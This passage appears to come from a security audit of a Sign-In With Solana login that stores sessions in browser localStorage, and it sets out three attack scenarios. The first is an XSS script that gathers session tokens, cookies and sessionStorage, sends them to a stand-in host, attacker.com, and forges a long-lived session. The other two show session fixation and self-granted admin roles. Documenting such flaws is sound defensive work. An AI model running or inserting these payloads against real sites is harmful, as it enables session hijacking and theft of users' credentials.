 ## Attack Scenarios

### Scenario 1: Complete Session Hijacking via XSS
```html
<!-- Attacker injects script into any page on the domain -->
<script>
// Steal all authentication data
const stolenData = {
  siwsSession: localStorage.getItem('siws-session'),
  authState: localStorage.getItem('auth-state'),
  userPreferences: localStorage.getItem('user-preferences'),
  cookies: document.cookie,
  sessionStorage: JSON.stringify(sessionStorage)
};

// Exfiltrate to attacker server
fetch('https://attacker.com/hijack', {
  method: 'POST',
  body: JSON.stringify(stolenData)
});

// Maintain persistent access
localStorage.setItem('siws-session', JSON.stringify({
  authenticated: true,
  address: 'attacker_controlled_address',
  signature: 'fake_signature',
  timestamp: Date.now() + (365 * 24 * 60 * 60 * 1000) // Valid for 1 year
}));
</script>
```

### Scenario 2: Session Fixation Attack
```javascript
// Attacker forces specific session ID before user logs in
localStorage.setItem('siws-session', JSON.stringify({
  sessionId: 'attacker-controlled-session-id',
  authenticated: false,
  // ... other session data
}));

// User logs in with attacker's session ID
// Attacker can now use the same session
```

### Scenario 3: Persistent Session Manipulation
```javascript
// Attacker modifies session to gain admin privileges
const currentSession = JSON.parse(localStorage.getItem('siws-session'));
currentSession.roles = ['ADMIN', 'SUPER_USER'];
currentSession.clearanceLevel = 'TOP_SECRET';
currentSession.permissions = ['ALL'];
localStorage.setItem('siws-session', JSON.stringify(currentSession));

// System trusts client-side session data
```
